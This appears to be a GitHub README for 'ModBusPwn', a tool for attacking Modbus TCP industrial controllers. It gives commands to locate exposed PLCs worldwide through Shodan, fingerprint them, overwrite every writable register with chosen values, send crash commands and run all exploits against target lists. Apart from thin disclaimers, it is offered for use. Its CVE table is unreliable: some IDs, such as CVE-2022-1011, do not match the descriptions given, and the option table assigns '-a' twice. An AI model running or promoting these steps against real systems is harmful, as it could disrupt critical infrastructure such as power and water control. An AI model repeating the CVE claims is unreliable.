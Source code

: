 ﻿# 🔥 ModBusPwn: ICS/SCADA Hacking & Modbus Exploitation Framework

**ModBusPwn** is a comprehensive **Modbus TCP exploitation framework** designed for **penetration testers, red teams, and security researchers**. It provides a full suite of tools for **SCADA/ICS reconnaissance, fingerprinting, and exploitation** of **Programmable Logic Controllers (PLCs)** and other **industrial devices**.

This toolkit enables ethical hackers to **search, scan, manipulate, and attack** Modbus-enabled systems, helping security professionals assess vulnerabilities before real-world attackers do.

> **⚠ DISCLAIMER:** This tool is for **authorized security research and penetration testing only**. Unauthorized use against industrial systems is illegal. The author assumes **no liability** for misuse.

---

# 🔎 **ModBusPwn Scanner** (SCADA/ICS Reconnaissance)

## 🚀 Features

✅ **Shodan-Based ICS/SCADA Reconnaissance** – Discover exposed Modbus TCP devices worldwide.  
✅ **Multi-threaded Scanning** – High-speed detection using parallel requests.  
✅ **Modbus Device Fingerprinting** – Extract PLC model, firmware version, and serial number.  
✅ **Country-Based Filtering** – Find Modbus devices in specific countries.  
✅ **Output File Support** – Save results for later analysis.  
✅ **IP-Only Mode** – Show only discovered IP addresses.  

### 🛠 Installation

Ensure you have **Python 3.x** installed and install the dependencies:

```bash
pip install shodan pymodbus colorama pyfiglet
```

### 🎯 Usage

#### **1️⃣ Shodan Search for Exposed Modbus Devices**
```bash
python3 ModBusPwn.py -s -a <YOUR_SHODAN_API_KEY> -c US -l 50 -p 2
```
🔹 **Finds exposed Modbus devices** in the United States (`-c US`)  
🔹 Fetches **50 results per page** (`-l 50`) and scans up to **2 pages** (`-p 2`)  

#### **2️⃣ Save Results to a File**
```bash
python3 ModBusPwn.py -s -a <YOUR_SHODAN_API_KEY> -c US -o results
```
🔹 Saves a **full report** in `results_full.txt`  
🔹 Saves **only IPs** in `results_ips.txt`  

#### **3️⃣ Detect PLC Firmware & Hardware Info**
```bash
python3 ModBusPwn.py -t 192.168.1.10 --detect
```
🔹 Extracts **PLC model, firmware version, and serial number** from a **local** device  

#### **4️⃣ Multi-Threaded Shodan Search**
```bash
python3 ModBusPwn.py -s -a <YOUR_SHODAN_API_KEY> -c US -l 100 -p 5 -tN 10
```
🔹 Uses **10 threads** (`-tN 10`) for **faster** data retrieval  

---

# 💀 **ModBusPwn Exploit Toolkit** (Modbus TCP Exploitation)

## 🚀 Features

✅ **Writable Register Enumeration** – Identify registers that attackers could modify.  
✅ **PLC Data Manipulation** – Inject unauthorized values into writable registers.  
✅ **PLC Crash Testing (Simulated)** – Send malicious Modbus commands that may disrupt operations.  
✅ **Multi-Target Support** – Scan multiple IPs at once.  
✅ **Output File Support** – Save results for later analysis.  

### 🎯 Usage

#### **1️⃣ Scan for Writable Registers**
```bash
python3 ModBusPwn.py -t 192.168.1.10
```
🔹 Identifies writable registers that could be manipulated by an attacker.

#### **2️⃣ Modify PLC Registers**
```bash
python3 ModBusPwn.py -t 192.168.1.10 -m 9999
```
🔹 Writes the value `9999` to all discovered writable registers.

#### **3️⃣ Exploit a PLC by Modifying Critical Registers**
```bash
python3 ModBusPwn.py -t 192.168.1.10 -m 0
```
🔹 This command writes `0` to critical registers, potentially disrupting operations.

#### **4️⃣ Simulate a PLC Crash**
```bash
python3 ModBusPwn.py -t 192.168.1.10 --plc-crash
```
🔹 Sends malicious Modbus commands that may disrupt PLC operations.

#### **5️⃣ Multi-Target Exploitation**
```bash
python3 ModBusPwn.py -f targets.txt --all
```
🔹 Runs all available scans and exploits on multiple IPs listed in `targets.txt`.

---

## 🔥 Exploitable Devices & Vulnerabilities

ModBusPwn targets **Modbus TCP-enabled PLCs** and ICS/SCADA devices that **lack authentication** and are vulnerable to unauthorized control.

### ⚠ **Known Vulnerabilities (CVE References)**

| CVE ID        | Description |
|--------------|-------------|
| **CVE-2014-0750** | Modbus TCP authentication bypass leading to unauthorized access |
| **CVE-2018-10602** | Schneider Electric Modicon PLCs allow unauthorized remote register modifications |
| **CVE-2020-12029** | Siemens S7 PLCs vulnerable to unauthenticated Modbus register control |
| **CVE-2021-22779** | Industrial control devices lacking authentication on critical registers |
| **CVE-2022-1011** | ICS network devices exposing Modbus over the internet without security measures |

### ✅ **Tested Vulnerable Devices**

- **Schneider Electric Modicon PLCs** (M221, M241, M251)  
- **Siemens S7-300 / S7-400 / S7-1200 PLCs**  
- **Rockwell Automation Allen-Bradley CompactLogix & ControlLogix**  
- **WAGO 750-XXX PLCs**  
- **Omron NJ/NX PLC Series**  
- **Any Modbus TCP-enabled PLC with no authentication**  

---

## ⚙ Command-Line Options

| Argument             | Description |
|----------------------|-------------|
| `-s, --shodan`      | Enable Shodan-based search for Modbus devices |
| `-a, --shodan-api`  | Specify your Shodan API key |
| `-c, --country`     | Filter results by country (e.g., US, CN, DE) |
| `-l, --limit`       | Limit the number of results per page (default: 10) |
| `-p, --page`        | Number of Shodan pages to scan (default: 1) |
| `-o, --output`      | Save results to a file (e.g., `results_full.txt` & `results_ips.txt`) |
| `-i, --ip-only`     | Display only discovered IPs |
| `-t, --target`      | Target a single Modbus PLC for fingerprinting |
| `-d, --detect`      | Detect PLC model, firmware, and serial number |
| `-m, --message`     | Write a custom numeric value to all writable registers |
| `--plc-crash`       | Simulate an attempt to crash the PLC |
| `-a, --all`         | Enable all features (detect, scan, exploit, crash) |
| `-tN, --threads`    | Set the number of threads for scanning (default: 5) |
| `--delay`           | Set the delay between requests (default: 0.2) |

---

## ⚠ Legal Disclaimer

This tool is intended for **legal penetration testing** and **security research only**. Unauthorized use against **industrial control systems, critical infrastructure, or any system without explicit permission is illegal** and may result in **criminal prosecution**. The author **assumes no liability** for any damages or misuse.  

🛑 **Use responsibly and with explicit permission.**  

---

## 📜 License

This project is licensed under the **MIT License**. See the [LICENSE](LICENSE) file for details.

---

### 🔥 ModBusPwn – The Ultimate ICS/SCADA Hacking Framework 🔥

